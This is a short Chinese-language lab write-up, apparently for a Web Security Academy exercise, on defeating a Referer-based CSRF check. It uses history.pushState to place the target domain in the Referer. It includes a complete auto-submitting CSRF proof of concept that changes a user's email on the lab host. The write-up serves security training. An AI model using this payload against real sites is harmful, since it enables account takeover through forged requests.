

程序根据referer头来阻止csrf攻击

但是referer验证存在缺陷，容易绕过

例如：

只要存在主域，就可以绕过



此时可以使用javascript代码来自动为referer头添加内容

```javascript
history.pushState("", "", "/?$original-domain")
```


poc:

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="14062&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
    //自动为referer添加/?accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net
history.pushState("", "", "/?accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>

```

